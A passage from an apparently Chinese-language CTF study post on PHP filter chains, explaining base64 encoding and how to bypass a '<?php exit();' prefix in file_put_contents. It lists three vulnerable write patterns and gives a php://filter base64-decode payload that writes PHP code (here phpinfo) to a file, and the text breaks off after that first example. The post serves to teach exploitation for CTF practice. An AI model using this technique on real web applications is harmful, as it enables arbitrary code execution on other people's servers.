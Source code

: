 0x0e前言
======

这个filterchain之前已经学过了，但是iconv和死亡杂糅的知识点是分开学的，而且也有一段时间了，所以打算写一篇总结起来学习可能会好一点

0x01前置知识
========

Base64编码与解码
-----------

可能刚刚入门CTF的师傅都知道base64是什么东西，但是不知道它的工作原理。  
base64编码字符表如下。  
![](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-07346429686fd99b2131ca57b41c6474e90b9c32.webp)

Encode Process
--------------

![](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-e0fbfa9cdc6678d4b40806e2623479563836493c.png)  
可以看见对于Sun来编码，首先就是将三个字节拆开来，再组合最后分成8bit进行编码，所以很清楚就能知道base64的编码过程就是不断拆开和组合。并且很清楚看见base64是3个字符3个字符进行编码的，当不足的时候会用`=`；来补齐  
example:

```php
<?
$data = "Delete";
echo base64_encode($data);
//=>RGVsZXRl
$data = "Delet";
echo base64_encode($data);
//=>RGVsZXQ=

?>
```

Decode Process
--------------

那么相反，你就会发现解码过程就是编码的逆运算，但是base64是以4个8bit的数据进行解码并且仅对有效字符进行解码，所以这个地方记住，在后面的知识点需要利用这个知识点.

0x02死亡杂糅
========

三种情况：  
`file_put_contents($filename,"<?php exit();".$content);`

`file_put_contents($content,"<?php exit();".$content);`

`file_put_contents($filename,$content . "\nxxxxxx");`

第一种（文件名和参数可控）
-------------

### base64

```php
$filename='php://filter/convert.base64decode/resource=delete.php';
$content = 'aPD9waHAgcGhwaW5mbygpOw==';
```
